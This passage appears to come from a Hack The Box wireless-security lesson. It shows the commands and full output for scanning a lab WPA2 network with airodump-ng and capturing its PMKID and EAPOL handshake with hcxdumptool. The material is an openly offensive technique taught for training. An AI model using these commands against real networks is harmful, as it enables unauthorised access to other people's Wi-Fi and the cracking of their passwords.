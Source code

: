 ```shell
airodump-ng wlan0mon --essid HTBWireless

 CH  3 ][ Elapsed: 0 s ][ 2024-09-08 12:26

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 E2:73:E7:F5:98:91  -47        3        0    0   1   54   WPA2 CCMP   PSK  HTBWireless

```

To ensure we only target our intended network (and avoid inadvertently attacking neighboring access points), we can refine our capture file. Start by using the `--enable_status` flag as before, then specify the target network's MAC address with the `--filterlist_ap` option. Additionally, set the appropriate filter mode and use the `-o` option to define where the captured PMKID should be saved.

## Capturing the Target's PMKID

```shell
hcxdumptool -i wlan0mon --enable_status=3 --filterlist_ap=E2:73:E7:F5:98:91 --filtermode=2 -o HTBPMKID.pcap

initialization of hcxdumptool 6.2.5...
warning possible interfere: NetworkManager is running with pid 228

warning possible interfere: wpa_supplicant is running with pid 204

interface is already in monitor mode, skipping ioctl(SIOCSIWMODE) and ioctl(SIOCSIFFLAGS) system calls

start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
INTERFACE NAME............: wlan0mon
INTERFACE PROTOCOL........: IEEE 802.11
INTERFACE TX POWER........: 20 dBm (lowest value reported by the device)
INTERFACE HARDWARE MAC....: 020000000100 (not used for the attack)
INTERFACE VIRTUAL MAC.....: 020000000100 (not used for the attack)
DRIVER....................: htb80211_chipset
DRIVER VERSION............: 5.4.0-88-generic
DRIVER FIRMWARE VERSION...: N/A
openSSL version...........: 1.0
ERRORMAX..................: 100 errors
BPF code blocks...........: 0
FILTERLIST ACCESS POINT...: 1 entries
FILTERLIST CLIENT.........: 0 entries
FILTERMODE................: attack
WEAK CANDIDATE............: 12345678
ESSID list................: 0 entries
ACCESS POINT (ROGUE)......: 00269fffffce (BROADCAST HIDDEN used for the attack)
ACCESS POINT (ROGUE)......: 00269fffffcf (BROADCAST OPEN used for the attack)
ACCESS POINT (ROGUE)......: 00269fffffd0 (used for the attack and incremented on every new client)
CLIENT (ROGUE)............: f04f7c1c7fb1
EAPOLTIMEOUT..............: 20000 usec
EAPOLEAPTIMEOUT...........: 2500000 usec
REPLAYCOUNT...............: 62701
ANONCE....................: cfbcd5a7204d588f7f008c35e39d87e817f67ccfc235e94fa1c2f64e9d5c16fc
SNONCE....................: 6d9f57e1a3984db45cd8a7a02680a957a5ed1f1d9c9a44e9cfad77daeba4452d

19:01:38 2412/1   0e2e37d6886d d8d63deb29d5 HTBWireless [PMKID:f196a698f65192290be9021be35e6462 KDV:2]
19:01:38 2412/1   0e2e37d6886d d8d63deb29d5 HTBWireless [EAPOL:M1M2 EAPOLTIME:9607 RC:1 KDV:2]
19:01:38 2412/1   0e2e37d6886d d8d63deb29d5 HTBWireless [EAPOL:M2M3 EAPOLTIME:89 RC:2 KDV:2]
19:01:38 2412/1   0e2e37d6886d d8d63deb29d5 HTBWireless [EAPOL:M3M4ZEROED EAPOLTIME:53 RC:2 KDV:2]

```